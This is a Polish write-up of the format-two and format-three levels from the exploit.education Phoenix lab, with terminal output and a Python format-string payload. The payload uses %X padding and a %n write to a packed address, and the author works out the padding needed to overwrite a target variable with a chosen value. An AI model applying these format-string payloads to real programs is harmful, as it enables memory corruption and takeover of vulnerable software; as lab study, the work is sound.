 ```
svu@unassigned:~$ ./amd64/format-two "`./format2/script.py`"
-bash: warning: command substitution: ignored null byte in input
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0 5 0 FFFFE58B FFFFE4CF FFFFE510 FFFFE510 FFFFE610 400745 FFFFE668 4003A0 41414141 41414141 41414141 41414141 41414141 25205825 20582520 58252058 25205825 20582520 58252058 25205825 20582520 58252058 25205825 �`Well done, the 'changeme' variable has been changed correctly!
svu@unassigned:~$ 
```

## Bum! :)
# format3
To samo, tylko przez stdin i trzeba nadpisać konkretną wartością.
Wydaje się proste, ~~ale~~ trzeba wygenerować 0x64457845 (1.682.274.373 dziesiętnie)
znaków. Przyda się padding z `format-two`

```
svu@unassigned:~$ ./format3/script.py | ./amd64/format-three 
Welcome to phoenix/format-three, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAF7FFDC0C F7FFB300 F7DC2617 0 0 0 FFFFD680 FFFFE680 4006C6 FFFFE6D8 0 41414141 41414141 41414141 41414141 41414141 25205825 20582520 58252058 25205825 20582520 58252058 25205825 20582520 58252058 25205825 �`Better luck next time - got 0x000000f4, wanted 0x64457845!
```

Hah! Używając skryptu z poprzedniego zadania jestem w stanie zmienić dane w tym :D
To jest ten moment, dla którego warto robić notatki :)   
Lekkie zmiany w kodzie

```python
#!/usr/bin/python

import struct

amount = 0x1000
payload = "%X " * 25 + "%" + str(amount) + "x " + "%n"
payload += struct.pack("Q", 0x6010b0)

padding = "A" * (128 - len(payload))

print(padding + payload)
```
```
Better luck next time - got 0x000010e9, wanted 0x64457845!
```

Czyli krótko mówiąc, ilość znaków wypisanych = `amount` + 0xE9
Według wszelkich praw matematyki flaga = 0x64457845 - 0xE9

~~I taka drobna informacja, dla przyszłych czytelników - zapiszcie sobie
output do jakieś pliku, bo wyświetlenie paru milionów spacji troszkę zajmuje~~   
Nie róbcie tego - plik waży parę gigabajtów i ledwo się mieści w moim RAM.
Używajcie `tail -c 80`.
